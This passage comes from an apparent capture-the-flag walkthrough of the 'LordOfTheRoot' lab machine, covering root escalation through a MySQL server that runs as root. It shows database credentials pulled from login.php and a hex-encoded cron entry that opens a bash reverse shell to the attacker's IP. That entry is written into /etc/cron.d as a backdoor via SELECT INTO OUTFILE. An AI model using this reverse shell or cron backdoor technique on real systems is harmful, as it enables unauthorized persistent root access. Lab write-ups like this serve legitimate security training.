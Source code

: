 ```console

}
```

This is the non-vulnerable other.c script.

```console
root@LordOfTheRoot:/root# cat other.c 
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]){

        char buff[150];
        if(argc <2){
                printf("Syntax: %s <input string>\n", argv[0]);
                exit (0);

        }
  //This Program does nothing
  return 0;

} 
```


### MySQL running with root permissions

Another path to get root is through MySQL, as it runs as root.

```console
smeagol@LordOfTheRoot:/$ ps aux | grep mysqld root      1360  0.6  0.1
318404   848 ?        Ssl  13:43   1:12 /usr/sbin/mysqld
```

The credentials to connect to MySQL are in the login.php file.

```console
smeagol@LordOfTheRoot:/var/www/978345210$ grep '$db ' login.php 
                $db = new mysqli('localhost', 'root', 'darkshadow', 'Webapp');
```
                      
I encoded to hexadecimal a reverse shell that runs every minute.

```console
LordOfTheRoot:~$ echo '* * * * * root /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' | xxd -ps | tr -d '\n'; echo
2a202a202a202a202a20726f6f74202f62696e2f62617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3137392e312f34343320303e2631220a
```

I wrote the reverse shell in the /etc/cron.d directory using mysql.

```console
mysql> select 0x2a202a202a202a202a20726f6f74202f62696e2f62617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3137392e312f34343320303e2631220a into outfile '/etc/cron.d/back.door';
Query OK, 1 row affected (0.01 sec)
```
